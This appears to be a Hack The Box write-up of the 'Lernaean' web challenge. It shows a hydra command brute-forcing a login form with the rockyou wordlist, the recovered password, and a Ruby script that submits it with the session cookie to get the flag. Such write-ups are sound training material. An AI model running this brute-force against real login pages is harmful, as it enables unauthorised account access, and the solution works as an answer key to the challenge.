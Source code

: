 +++
title = "Lernaean"
date = 2019-06-17
[taxonomies]
tags = ["hackthebox"]
+++

1.  "Your target is not very good with computers. Try and guess their password to see if they may be hiding anything!"

    This challenge wasn't too bad. The parts that I struggled with was getting the right syntax for hydra and putting together a post request script in Ruby which I've partially borrowed from Emdee five for life - Web challenge.

    To start off with this challenge, it was a simple textbox that you need to input a password. To brute force the password, `hydra` and `rockyou.txt` was used for this task.

    We need to grab the cookie first and pass onto hydra.

    ![htb-lernaean-cookie.png](htb-lernaean-cookie.png)

    ```
    hydra -l dummy -P /usr/share/wordlists/rockyou.txt docker.hackthebox.eu -s 36029 http-post-form "/index.php:user=^USER^&password=^PASS^:Invalid password:h=Cookie: PHPSESSID=guu956jep1i9qdk0a5huo3u4c0" -V
    ```

2.  I struggled with hydra because I thought that the first part of the ternary required /index.php or something because it kept rejecting "/" as a parameter. I used dirbuster to find out if `index.php` is the correct page to be using. Now that I think of it, why did I use dirbuster just for that purpose.

    The other part is the 3rd parameter of the ternary: "Invalid password". I did not know that this field had to match the output of the result. All the tutorials that I've read online doesn't really mention about this field. If I entered some other text, the results will show all as matching passwords.

    ![htb-lernaean-hydra](htb-lernaean-hydra.png)

    As you can now see, the password is "leonardo". Upon inputting this password into the field, it redirects to a new page and tells us that we're too slow.

    ![htb-lernaean-tooslow](htb-lernaean-tooslow.png)

    I took a look at the source page for possible flags but I didn't see any.

3.  At this point, I figured maybe it's a false password that led me to a wrong path. I removed the password from `rockyou.txt` and continued with brute forcing the password and see if it leads me anywhere. After an hour, I gave up and started to write my POST script.

    ```
    require 'net/http'
    require 'uri'
    
    uri = URI.parse("http://docker.hackthebox.eu")
    uri.scheme = "http"
    uri.host = "docker.hackthebox.eu"
    uri.port = 36029
    uri.path = "/"
    
    http = Net::HTTP::new(uri.host, uri.port)
    
    get_request = Net::HTTP::Get.new(uri.request_uri)
    get_response = http.request(get_request)
    # puts http.request(get_request).body
    
    cookies = get_response.response['set-cookie']
    
    post_request = Net::HTTP::Post.new(uri.request_uri)
    
    password = "leonardo"
    
    post_request.set_form_data("password" => password)
    
    post_request['Cookie'] = cookies
    
    post_response = http.request(post_request)
    
    puts post_response.body
    ```

    Running the script will show the HTB flag.

    ![htb-lernaean-flag](htb-lernaean-flag.png)

    `Protip`{: .info }

    Useful link: [https://www.hempstutorials.co.uk/brute-forcing-passwords-with-thc-hydra/](https://www.hempstutorials.co.uk/brute-forcing-passwords-with-thc-hydra/)